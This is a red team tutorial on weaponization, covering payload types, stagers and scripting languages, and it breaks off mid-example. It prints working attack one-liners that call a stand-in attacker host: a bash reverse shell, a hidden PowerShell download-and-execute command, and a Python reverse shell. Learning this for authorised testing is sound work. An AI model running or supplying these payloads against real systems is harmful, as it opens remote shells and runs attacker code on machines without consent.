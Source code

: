 Weaponization is the phase where tools and payloads are crafted to exploit identified vulnerabilities and deliver the intended action (e.g., initial access, execution). A well-prepared payload is stealthy, effective, and tailored to bypass defenses. This guide covers the essentials of Red Team weaponization.

---

### **1. Key Concepts of Weaponization**

- **Definition**: The process of creating or modifying tools, scripts, and exploits to deliver payloads to a target.
- **Objective**: Achieve **initial access** to a target system or network while remaining undetected.
- **Components**:
    - **Payload**: Code that executes on the target.
    - **Delivery Mechanism**: How the payload reaches the target.
    - **Exploit**: Code or method used to trigger a vulnerability.

---

### **2. Common Weaponization Techniques**

### **a. Payload Types**

1. **Shell Payloads**:
    - Reverse Shell: Target connects back to your listener.
    - Bind Shell: Attacker connects to a shell opened on the target.
    - Example (Reverse Shell in Bash):
        
        ```bash
        bash -i >& /dev/tcp/attacker_ip/4444 0>&1
        
        ```
        
2. **Stagers and Full Payloads**:
    - **Stager**: Small initial payload that downloads and executes a larger payload.
    - **Full Payload**: Contains all functionality in one file (e.g., Cobalt Strike beacon).

### **b. Scripting Languages**

- **PowerShell**: Used for fileless execution on Windows.
    
    ```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command "[System.Net.WebClient]::new().DownloadString('<http://attacker.com/payload.ps1>') | IEX"
    
    ```
    
- **Python**: Common for cross-platform payloads.
    
    ```python
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("attacker_ip",4444))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    subprocess.call(["/bin/sh","-i"])
    